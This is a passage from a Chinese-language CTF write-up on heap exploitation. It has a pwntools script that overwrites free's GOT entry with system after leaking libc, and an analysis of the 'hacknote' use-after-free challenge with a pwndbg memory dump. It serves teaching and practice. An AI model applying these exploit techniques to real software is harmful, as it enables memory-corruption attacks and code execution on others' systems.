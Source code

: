 ```python
payload = p64(0) * 2
payload += p64(0x40) + p64(free_got)
edit(0,len(payload),payload)
gdb.attach(r)
show()
leak = u64(r.recvuntil("\x7f")[-6:]+'\x00\x00')
log.success(hex(leak))

libc=LibcSearcher('free',leak)
base=leak-libc.dump('free')
sys=base+libc.dump('system')

edit(0,len(p64(sys)),p64(sys))
dele(3)
r.interactive()
```

## 3.UAF hacknote

函数我就懒得放上来了漏洞在free的时候没有置零然后没有edit功能

使用uaf漏洞就行了



简略分析下吧

这个chunk的结构体由2部分组成

我们new 一个chunk会有2个chunk生成

一个固定的0x11大小的存放了puts调用的地址和用户创建的chunk的内容的地址

泄露地址老生常谈咯，构造unsortedbin然后申请回来一部分空间去写入payload

```
pwndbg> x/16wx 0x804b070
0x804b070:	0x00000000	0x00000011	0x0804862b	0x0804b088
0x804b080:	0x00000000	0x00000049	0x000a3636	0x00000000
0x804b090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b0a0:	0x00000000	0x00000000	0x00000000	0x00000000

```

对于payload = p32(0x804862b)+p32(puts_got)

这句代码，我们要知道的是上面我也提到了他会固定生成一个0x11大小的chunk放2个指针

我们把chunk1 2 free了进入了bin中，当我们再次申请的chunk小于bin的时候chunk就会从bin中把原来的空间拿出来复用

因为他没有置0嘛，所以原来的指针就不变咯。我们申请一个比0x11小的能刚好写下payload的chunk 大小为8

前面的puts的地址不用动，动了会崩溃，后面把原来指向堆内容的chunk改为某个函数的got表

下面当我们去打印这个堆的时候他就会去打印这个函数的real_addr

至此我们的libc泄露完成
